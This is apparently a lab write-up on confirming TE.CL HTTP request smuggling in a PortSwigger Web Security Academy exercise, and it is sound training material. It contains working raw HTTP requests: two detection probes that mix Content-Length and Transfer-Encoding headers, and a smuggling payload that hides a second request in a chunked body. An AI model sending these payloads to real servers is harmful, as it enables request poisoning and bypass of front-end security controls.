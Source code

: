 [LAB](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)
[Explained](https://www.youtube.com/watch?v=QaouEvhHefk&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=5&ab_channel=JarnoTimmermans)

# Detection

```HTTP
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 11
Transfer-Encoding: chunked

3
abc
X

```
![](../../../Attachments/Pasted%20image%2020250818175935.png)
![](../../../Attachments/Pasted%20image%2020250818175935.png)
Got Invalid Request, which indicates that frontend doesn't use Content-Length header, and "X" is an invalid chunk size:
![[Invalid Chunk SIze.png]]


Confirming TE.CL with the second request from methodology
```
POST / HTTP/1.1
Host: 0a69001803897d838055679c005a007c.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
Got **Backend Timeout with 500 Internal Server Error**
![[Pasted image 20250818180347.png]]

# Usage of Differential Responses:

Explained:
![[Confirmation Diffential Responses TE CL.png]]

Crafting the request:
Adjusting the Content-Length of the smuggles request, to the minimum to append to the next request:
![[Pasted image 20250818183436.png]]

Adjusting the chunk size to correspond to the 404 request until its body (excluding last non-printable):
![[Pasted image 20250818184053.png]]
Adjusting first Content-Length to include only chunked size and following non-printable chars:
![[Pasted image 20250818184628.png]]

# Exploiting

```HTTP
POST / HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0a7700a1047a045e82821b9f0067000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

x=1
0


```
Got the **200 OK** and immediately send the normal request which responded with a **404 Not Found**
